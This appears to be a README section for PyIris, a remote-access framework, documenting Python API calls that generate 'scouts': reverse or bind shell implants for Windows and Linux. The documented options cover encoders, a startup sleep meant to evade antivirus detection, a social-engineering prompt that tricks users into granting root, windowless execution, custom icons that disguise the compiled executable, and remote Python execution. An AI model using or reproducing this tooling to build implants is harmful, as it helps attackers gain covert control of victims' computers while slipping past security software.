 #### `show(to_show)`
This command prints and provides information about `"bases"`, `"components"`, `"encoders"`, `"loaded`" base, components & encoders, `"options"` (scout_values).
```py
output = p.generate.show("options")
print(output) # {'status': 'ok', 'message': '', 'data': {'scout_values': {'Host': ['192.168.1.7', 'The local hostname to connect back to (Reverse) or the interface to listen on (Bind). You can set multiple hostnames to connect back to by separating them with commas'], 'Port': ['9999', 'The local port to connect back on (Reverse) or the remote port to listen on (Bind)'], 'Timeout': ['5', 'The timeout value for the scout'], 'Windows': ['True', 'When "True", will generate a windows scout, else a linux scout'], 'Dir': ['C:/***/***/***/generated', 'Directory to generate payload in'], 'Compile': ['False', 'When "True", will compile scout to EXE (windows) or ELF (Linux), else it will not compile']}}}
```

#### `generate(generator_settings=None)`
This command generates a deployable PyIris scout to whatever `'Dir'` was specified in scout options.

`generator_settings` is an optional dictionary used to pass any extra options to specific components which require them. For example: pyiris_api/components/windows/control/execute_python.py may require extra imports which can be specified using
`generate(generator_settings={"execute_python_modules"=["flask", "numpy"]})`
Currently, only 5 components require extra options. Here they are:

|Component|Dictionary Key|Value Type|Info|Default|
|:---|:---|:---|:---|:---|
|windows/control/execute_python, linux/control/execute_python|`"execute_python_modules"`|list|A list of python modules which will be imported for executing remotely|`[]`|
|windows/startup/sleep, linux/startup/sleep|`"scout_sleep_time"`|int|Amount of time in seconds for scout to sleep on startup to avoid antivirus detection|`60`|
|linux/startup/req_root|`"request_root_message"`|str|A social engineering message to be displayed on startup to request for root|`"ERROR - This file must be run as root to work"`|

Another optional key present in `generator_settings` is `"compiler_settings"` which is a dictionary which controls compilation. Here are the valid keys and values in compiler_settings:

|Dictionary Key|Value Type|Info|Default|
|:---|:---|:---|:---|
|`"onefile"`|`bool`|Set `True` for compilation into one file, else `False`|`True`|
|`"windowed"`|`bool`|Set `True` if you don't want a console to display on execution, else `False`|`False`|
|`"custom_icon_filepath"`|`str`|Filepath to a .ico file so that the executable can have a custom icon|Default ico file|

```py
p.generate.load_base("0")
p.generate.load_component("all")
p.generate.load_encoder("0,1")
p.generate.set_option("Compile", "True")
output = p.generate.generate(generator_settings={"execute_python_modules": ["numpy", "flask", "cryptography"], "scout_sleep_time": 120, "compiler_settings":{"onefile": True, "windowed": True, "custom_icon_filepath": "C:/Path/To/Icon/icon.ico"}})
print(output) # {'status': 'ok', 'message': 'Generation and Compilation Successful', 'data': None}
```
